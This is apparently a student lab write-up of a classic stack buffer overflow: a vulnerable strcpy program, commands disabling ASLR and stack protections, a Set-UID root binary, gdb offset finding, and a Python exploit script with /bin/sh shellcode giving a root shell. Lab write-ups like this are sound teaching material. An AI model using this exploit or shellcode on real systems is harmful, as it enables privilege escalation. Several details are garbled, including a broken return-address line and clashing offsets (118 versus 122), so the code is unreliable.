


Exploiting a classic stack-based buffer overflow, defeating system countermeasures, injecting shellcode, and achieving a root shell.
Performed in Ubuntu Virtal Box this project explores memory corruption vulnerabilities in C programs, techniques for bypassing stack protections, and privilege escalation using Set-UID executable exploitation.
Below is the vulnerable C program and the corresponding stack frame. The vulnerable function accepts multiple parameters and writes user-controlled data into a fixed-size buffer.
#include < stdio.h>
#include < string.h>
void vuln_func(char *input) {
char buffer[64];
strcpy(buffer, input);
int main(int argc, char ** argv) {
if (argc != 2) {
printf("Usage: %s < input >\n", argv[0]);
return 1;
vuln_func(argv[1]);
printf("Successful.\n");
return 0;
Running the compiled file with a long input triggers stack-smashing detection due to buffer overflow.
I recompile the program with -Wall -fno-stack-protector commands. It outputted Segmentation fault because the memory location is read only.
To successfully perform this lab, countermeasures must be disabled:
//Disable ASLR
sudo sysctl -w kernel.randomize_va_space=0
//Point to another shell that doesn’t have countermeasures
sudo ln -sf /bin/zsh /bin/sh
//Disable StackGuard
gcc -fno-stack-protector stack.c
//Disable non-executable
gcc -z noexecstack -o stack stack.c
The C and assembly version of the shellcode were analyzed and compiled as executable code.
gcc -z execstack -o shellcode shellcode.c
make #(Makefile = gcc -m32 -z execstack -o a32.out shellcode.c, gcc -z execstack -o a64.out shellcode.c)
# compiles a32.out and a64.out
The 32-bit version uses a 4GB address space, while the 64-bit version supports a much larger memory model.
To escalate privileges, the vulnerable program was made Set-UID and owned by root:
sudo chown root stack
sudo chmod 4755 stack
//In the vulnerable program the function bof has the buffer overflow vulnerability.
//Basically, this function uses strcpy to put the string parameter into the buffer memory location.
//If the string exceeds the size of the buffer the buffer will overflow.
int bof(char *str)
{
char buffer[BUF_SIZE];
strcpy(buffer, str);
return 1;
}

When executed, the overflow overwrites the return address and injects shellcode into the stack, granting a root shell.
cysec@VM :~ /code$ make
gcc -DBUF_SIZE=110 -z execstack -fno-stack-protector -m32 -o stack-L1 stack.c
gcc -DBUF_SIZE=110 -z execstack -fno-stack-protector -m32 -g -o stack-L1-dbg st
ack.c
sudo chown root stack-L1 && sudo chmod 4755 stack-L1
gcc -DBUF_SIZE=160 -z execstack -fno-stack-protector -m32 -o stack-L2 stack.c
gcc -DBUF_SIZE=160 -z execstack -fno-stack-protector -m32 -g -o stack-L2-dbg st
ack.c
sudo chown root stack-L2 && sudo chmod 4755 stack-L2
gcc -DBUF_SIZE=200 -z execstack -fno-stack-protector -o stack-L3 stack.c
gcc -DBUF_SIZE=200 -z execstack -fno-stack-protector -g -o stack-L3-dbg stack.c
sudo chown root stack-L3 && sudo chmod 4755 stack-L3
gcc -DBUF_SIZE=10 -z execstack -fno-stack-protector -o stack-L4 stack.c
gcc -DBUF_SIZE=10 -z execstack -fno-stack-protector -g -o stack-L4-dbg stack.c
sudo chown root stack-L4 && sudo chmod 4755 stack-L4
cysec@VM :~ code$ ls
stack stack.c stack-L1 stack-L1-dbg stack-L2 stack-L2-dbg
stack-L3 stack-L3-dbg stack-L4 stack-L4-dbg a.out exploit.py Makefile
Using gdb, I determined the base of the buffer and the location of the return address. By subtracting the buffer start address from the saved EBP, I calculated an offset of 118 bytes.
Reading symbols from stack-L1-dbg ...
(gdb) b bof
Breakpoint 1 at 0x12ad: file stack.c, line 12.
(gdb) run
Starting program: /home/cysec/code/stack-L1-dbg
Input size: 0
Breakpoint 1, bof (str=0xffffcf43 "V\004") at stack.c:12
12
(gdb) next
14
(gdb) p $ebp
$1 = (void *) Oxffffcb18
(gdb) exit
Undefined command: "exit". Try "help".
(gdb) quit
A debugging session is active.
Inferior 1 [process 7292] will be killed.
Quit anyway? (y or n) y
The payload was constructed by placing shellcode at the end of a 517-byte buffer and overwriting the return address with the buffer’s start location + offset.
#!/usr/bin/python3
import sys
# Replace the content with the actual shellcode
shellcode= ( "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\X62\X69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80").encode('latin-1')
# Change this number
ret
# Change this number
# Change thts number
L = 4
# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))
###################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode
# Dectde the return address value
# and put it somewhere in the payload
= 0xffffcb18 + 140
offset = 122
# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
*##########
# Write the content to a file
with open('badfile', 'wb') as f:
f.write(content)
Running the vulnerable program using the crafted badfile resulted in a root shell.
cysec@VM :~ /CYSEC/code$ python3 exploit.py
cysec@VM :~ /CYSEC/code$ ./stack-L1
Input size: 517
# I got root shell!
I opened the badfile file in the bless hex editor. Then I highlighted the malicious code and the return address in the screenshot below:
